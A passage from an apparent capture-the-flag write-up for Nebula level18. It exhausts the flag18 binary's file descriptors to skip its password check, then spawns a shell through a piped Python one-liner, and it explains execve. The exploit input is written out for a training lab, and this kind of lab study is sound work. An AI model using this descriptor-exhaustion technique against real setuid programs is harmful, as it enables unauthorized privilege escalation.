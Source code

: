 ```
0 -> stdin
1 -> stdout
2 -> stderr
3 -> DEBUG_FILE
4 -> PW
5 -> PW
6 -> PW
7 -> PW
8 -> PW
9 -> PW 
10 -> PW ( busy here )
```
We should close debug file to avoid saving in /tmp/log

```
level18@nebula:~$ python -c 'print "login\n"*7+"closelog\n"+"shell\n"' | /home/flag18/flag18 -v -d /tmp/log
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
``` 
Now it's showing in terminal instead of /tmp/log.

**Final**

How shell run with execve()? [ [Man](http://man7.org/linux/man-pages/man2/execve.2.html) ]

> executes the program referred to by pathname.  This causes
>        the program that is currently being run by the calling process to be
>        replaced with a new program, with newly initialized stack, heap, and
>        (initialized and uninitialized) data segments.

```
execve("/bin/sh",  argv,  envp);
int execve(const char ***_pathname_**, char *const** _argv_**[],**
                  **char *const** _envp_**[]);
```
path name -> program path name  
argv -> program arguments from parent process  
env -> inherits copy of parent's environment [ [Ref](http://man7.org/linux/man-pages/man7/environ.7.html) ]
  